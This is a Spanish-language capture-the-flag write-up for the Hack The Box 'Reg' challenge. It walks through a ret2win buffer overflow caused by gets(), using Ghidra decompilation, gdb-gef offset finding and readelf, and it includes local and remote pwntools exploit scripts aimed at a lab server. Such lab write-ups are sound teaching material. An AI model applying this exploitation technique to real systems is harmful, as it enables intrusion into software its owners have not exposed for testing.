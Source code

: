 ```yaml
---
title: Reg - Pwn Challenge (HTB) ❤
author: sha16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

Este es un reto de pwning, del tipo `ret2win`, el cual implica explotar un *Buffer Overflow* con el objetivo hacer una llamado a una función que imprime la `flag` del desafío por pantalla.

Para comenzar, primeramente realizamos un análisis general del binario, checando sus protecciones:

![Untitled](/assets/img/htb/pwn/Reg/Untitled.png)

Como se muestra en imagen, el binario es de `64 bits` y posee la protección `no-execute (NX)`, lo cual desde ya, significa que no podremos cargar código malicioso en el stack, mediante un `shellcode`.

Hecho esto, podemos empezar a entender la función y comportamiento del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%201.png)

Al parecer es algo bastante sencillo, ya que sólo te pide el nombre y nada más.

En base a esto, comenzamos jugar y en lugar de colocar un nombre de `10 bytes`, metemos una `string` de `100 bytes`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%202.png)

Como se muestra en imagen, el programa arroja un error `segmentation fault`, lo cual es más que suficiente para intuir que hemos desbordado el *buffer*.

Sabiendo esto, analizaremos el programa un poco más a fondo, aplicando reversing con Ghidra.

En la siguiente imagen, podemos observar que existe una función `main` la cual hace una llamada a `run`:

```c
int main(void)

{
  run();
  return 0;
}
```

La función `run` está encargada de recibir los datos del usuario por medio de la función `gets`, como se muestra a continuación:

```c
void run(void)

{
  char user_name [48];
  
  initialize();
  printf("Enter your name : ");
  gets(user_name);
  puts("Registered!");
  return;
}
```

En este punto, ya podemos identificar dónde se acontece el *buffer overflow*. 

Como se muestra en el código anterior, el programa usa la función `gets` para recibir el `input` del usuario. Dicha función es conocidamente vulnerable a ataques de desbordamiento de *buffer*, ya que esta no valida si el número de `bytes` introducidos por el usuario coinciden con aquellos que se reservaron para la variable, en base a esto el usuario puede comenzar a sobrescribir otras área de la memoria y controlar el flujo del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%203.png)

Siguiendo con Ghidra, se logra identificar una función `winner` la cual no es llamada desde `main` o `run`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%204.png)

Como se observa a continuación, el código de la función `winner` se encarga de imprimir el contenido del archivo `flag.txt` por pantalla:

```c
void winner(void)

{
  char flag_content [1032];
  FILE *flag_file;
  
  puts("Congratulations!");
  flag_file = fopen("flag.txt","r");
  fgets(flag_content,1024,flag_file);
  puts(flag_content);
  fclose(flag_file);
  return;
}
```

Una vez analizado todo el flujo del programa, continuamos con la detección del `offset`, o sea la cantidad de bytes que tenemos que meter en el *overflow* antes de sobrescribir la dirección de retorno.

Para esto computamos una cadena `100 bytes`, utilizando `pattern create` en `gdb-gef`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%205.png)

Al colocar esta cadena en el `name` provocamos que se sobrescriban los registros del programa, con lo que logramos detectar el `offset` correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%206.png)

Teniendo el `offset` en mano, sólo nos estaría faltando identificar la ubicación de memoria de la función `winner`, lo cual es logrado fácilmente con la herramienta `readelf`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%207.png)

En base a todos los datos recopilados anteriormente, se construye el siguiente exploit, el cual se encarga de explotar el BoF de manera local para leer el contenido del archivo `flag.txt`:

```python
#!/usr/bin/env python3

from pwn import process, p64

if __name__ == '__main__':
    p = process('./reg')

    offset = 56
    junk = b'\x41' * offset
    
    winner_addr = 0x401206 # winner() location

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Como se puede observar en imagen, el BoF es explotado correctamente de forma local:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%208.png)

Para explotar el BoF de forma remota, sólo tendríamos que modificar el exploit, colocando el método `remote` en lugar de `process`, y así conectarnos al server de HTB:

```python
#!/usr/bin/env python3

from pwn import remote, p64, log

if __name__ == '__main__':
    p = remote('206.189.27.45', 31721) # htb remote connection

    offset = 56
    junk = b'\x41' * offset

    # winner() function location
    winner_addr = 0x401206

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    # exploiting bof
    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Ya ejecutando el exploit, logramos obtener la `flag` del desafío correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%209.png)

### References

- gets(7) - Linux Manual Page: https://man7.org/linux/man-pages/man3/gets.3.html